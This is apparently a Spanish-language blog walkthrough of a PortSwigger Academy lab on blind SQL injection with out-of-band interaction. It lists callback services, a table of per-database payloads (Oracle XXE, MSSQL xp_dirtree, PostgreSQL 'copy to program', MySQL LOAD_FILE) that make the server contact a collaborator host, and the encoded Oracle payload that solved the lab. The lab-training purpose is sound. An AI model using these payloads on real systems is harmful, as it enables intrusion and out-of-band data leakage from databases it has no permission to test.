


+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 15"
date = "2021-11-11"
description = "Lab: Blind SQL injection with out-of-band interaction"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind SQL injection with out-of-band interaction

En este <cite>laboratorio[^1]</cite>la finalidad es poder inyectar una consulta sql y basandonos en la ejecucion que pueda realizar el backend una consulta hacia un endpoint y genere una accion, en este caso de esto se trata. Mas que todo donde los otros tipos de sql injection a ciegas no puede llegar.

## Reconocimiento

Burpsuite cuenta con una propia herramienta que es Burp Collaborator que lo que hace es apoyar a detectar vulnerabilidades a ciegas. Pero si no se cuenta con Burpsuite Pro no se puede utilizar, asi que se listan a continuacion algunas alternativas para poder explotar esta vulnerabilidad.

> En el laboratorio no se puede realizar alguna de estas alternativas ya que el firewall de PortswiggerAcademy bloquea


* http://dnslog.cn/
* https://webhook.site/
* https://app.interactsh.com/
* http://pingb.in/
* http://swin.es/
* http://ceye.io/
* https://canarytokens.org/
* https://requestbin.net/
* https://beeceptor.com/


###  Payloads

Los payloads a inyectar segun la base de datos son los siguientes:

Backend | Consulta
--------|-----------------
Oracle	| `SELECT extractvalue(xmltype('\<?xml version="1.0" encoding="UTF-8"?>\<!DOCTYPE root [ \<!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual` o `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')` solo con privilegios elevados
Microsoft |	`exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
PostgreSQL |	`copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
MySQL	| `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')` solo trabaja en windows o `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

#### Explotar

Utilizando una de las consultas podemos inyectar una consulta y enviar la consulta, y ahora collaborate nos enviara las peticiones que se han realizado.

```sql
xxxxxxxxxxxxxxxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//gcwtmppkxyte3s4zwxzqbfkig9mba0.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```



Y con esto hemos resulto el lab:



Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)